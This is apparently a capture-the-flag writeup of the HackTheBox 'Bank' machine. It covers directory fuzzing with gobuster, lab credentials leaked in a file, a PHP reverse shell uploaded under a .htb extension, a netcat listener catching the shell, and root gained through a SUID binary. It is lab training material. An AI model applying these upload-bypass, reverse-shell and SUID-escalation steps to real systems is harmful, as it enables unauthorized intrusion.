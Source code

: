 ```yaml
---
title: Bank writeup
date: 2022-06-17 15:00:00 +0200
categories: [Writeup, HackTheBox]
tag: ["Easy-box"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/bank/
image: # Thumbnail 
  src: Bank.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This was one of the easier boxes on the platform. With comments left in the HTML source code and a SUID binary giving root access immediatly. In any case, you can learn some fuzzing on this box since it is required to find the credentials for the ticket page. 

## Foothold

We start by adding bank.htb to our `/etc/hosts`{: .filepath} file. When visiting the site we get greeted with a login page:

![Login page](index.png)

You could try to perform some SQL-injection to bypass the login, but it wont work. Instead we fuzz for directories via gobuster:
```console
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/01/25 20:46:06 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/login.php            (Status: 200) [Size: 1974]                
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/] 
/logout.php           (Status: 302) [Size: 0] [--> index.php]                 
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]    
/server-status        (Status: 403) [Size: 288]                               
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
                                                                                       
===============================================================                                                                                                                                                                             
2022/01/25 21:26:59 Finished                                                                                                                                                                                                                
===============================================================
```

Entering the `/balance-transfer`{: .filepath} dir we find a lot of files. All have the same size, except for one which is much smaller:

![content of /balance-transfer sorted by size](smallfile.png)

Contents of the file can be found below:
```txt
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

Using the credentials to login, we can access a page where we can upload a file. If we view the source code we can see that the developer left a comment saying that any file endning in .htb will be executed as php for debugging purposes.

![Web page source code](source.png)

Uploading a standard php reverse shell and renaming it to something ending in .htb will give a reverse shell when trying to access it after uploading it via the ticket functionality.

![Malicious ticket](ticket.png)

Clicking on the ticket will execute the php code. 
## Privilege escalation
Receiving the reverse shell, we start out by looking at SUID binaries:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/banking]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.29.200] 44466
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 18:14:04 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

One stands out immediatly, namely the file `/var/htb/bin/emergency`{: .filepath}

Simply running it gives us root access. Rooted!